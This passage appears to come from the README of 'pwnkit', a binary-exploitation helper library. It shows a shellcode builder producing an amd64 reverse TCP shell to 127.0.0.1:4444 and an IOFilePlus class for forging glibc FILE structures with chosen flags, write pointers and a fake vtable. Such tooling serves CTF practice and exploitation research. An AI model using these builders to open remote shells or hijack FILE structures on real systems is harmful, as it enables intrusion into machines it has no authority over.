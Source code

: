 ```py
print(f"[+] Fuzzy match: {sc.name}")
print(hex_shellcode(sc.blob))

print("")

# 6) Builder demo: reverse TCP shell (amd64)
builder = ShellcodeBuilder("amd64")
rev = builder.build_reverse_tcp_shell("127.0.0.1", 4444)
print(f"[+] Built reverse TCP shell ({len(rev)} bytes)")
print(hex_shellcode(rev))
```

Example output:

![shellcode](images/shellcode.jpg)

#### IO FILE Exploit

The `pwnkit` module also provides a helper for targeting glibc’s internal `_IO_FILE_plus` structures. The `IOFilePlus` class allows us to conveniently craft fake FILE objects:

```py
# By default, it honors `context.bits` to decide architecture
# e.g., we set Context(arch="amd64")
f = IOFilePlus()

# Or, we can specify one
f = IOFilePlus("i386")
```

Iterate fields of the FILE object:

```py
for field in f.fields:	# or f.iter_fileds()
    print(field)
```

Inspect its members offsets, names and sizes:

![iofile_fields](images/iofile_fields.jpg)

Set FILE members via names or aliases:

```py
# Use aliases
f.flags      = 0xfbad1800
f.write_base = 0x13370000
f.write_ptr  = 0x13370040
f.mode       = 0
f.fileno     = 1
f.chain      = 0xcafebabe
f.vtable     = 0xdeadbeef

# Also honors original glibc naming
f._flags = 0xfbad1800
f._IO_write_base = 0x13370000
```

